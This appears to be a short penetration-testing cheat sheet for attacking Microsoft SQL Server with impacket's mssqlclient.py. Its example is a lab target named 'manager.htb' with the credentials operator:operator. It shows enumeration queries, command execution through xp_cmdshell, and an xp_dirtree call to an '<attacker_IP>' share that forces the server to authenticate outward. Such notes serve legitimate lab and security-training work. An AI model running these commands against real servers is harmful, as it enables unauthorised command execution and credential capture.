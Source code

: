 ```yaml
---
slug: /tooling/ms-sql
pagination_next: null
pagination_prev: null
---
```


Connect with impacket-mssqlclient.py:

```bash
mssqlclient.py manager.htb/operator:operator@dc01.manager.htb -windows-auth
```

Show databases

```sql
SELECT name, database_id, create_date FROM sys.databases; 
```

Show tables
```sql
SELECT name FROM sys.tables;
```

Check if we have permission to run xp_*
```sql
EXEC sp_helprotect 'xp_cmdshell'
EXEC sp_helprotect 'xp_dirtree'
```

Execute code
```sql
EXEC xp_cmdshell whoami
```

List files
```sql
EXEC xp_dirtree '\\<attacker_IP>\any\thing'
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```